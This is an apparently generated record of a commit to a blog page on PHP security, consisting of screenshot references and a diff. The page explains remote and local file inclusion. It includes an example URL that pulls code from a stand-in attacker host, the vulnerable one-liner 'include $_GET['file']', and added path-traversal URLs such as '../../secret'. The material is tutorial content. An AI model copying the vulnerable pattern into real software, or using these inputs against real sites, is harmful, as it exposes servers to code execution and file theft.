

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8844 px. Shown: the whole window, without its empty margins (108-1168 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 9659 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -175,4 +175,7 @@ When an attacker is exploiting RFI, he uses a remote file, while on the other si
 On the other hand, while exploiting RFI you can upload files from a remote server which in 99% of the cases will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild, because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
 Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention. <br>
 
-Take this one-liner for example: <code>&lt;?php include $_GET['file']; ?&gt;</code>
+Take this one-liner for example: <code>&lt;?php include $_GET['file']; ?&gt;</code><br>
+An attacker now can make us of additional trailing slashes and dots to access some sensitive file, like this: <br>
+<code>http://localhost/app.php?file=fileYouShouldSee.php</code><br>
+<code>http://localhost/app.php?file=../../secret</code>
```
